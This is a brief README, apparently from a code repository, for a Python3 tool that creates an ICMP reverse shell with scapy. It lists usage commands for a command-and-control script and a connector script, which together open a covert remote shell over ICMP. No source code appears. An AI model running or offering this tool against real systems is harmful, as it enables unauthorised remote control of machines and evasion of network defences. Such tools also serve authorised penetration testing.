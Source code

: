 # Python3 ICMP reverse shell 
ICMP reverse shell with python3 scapy

Usage:

./icmp-cnc.py -i <interface> -d <destination ip> (Command and Control)
  
./icmpdoor.py -i <interface> -d <destination ip> (connector)
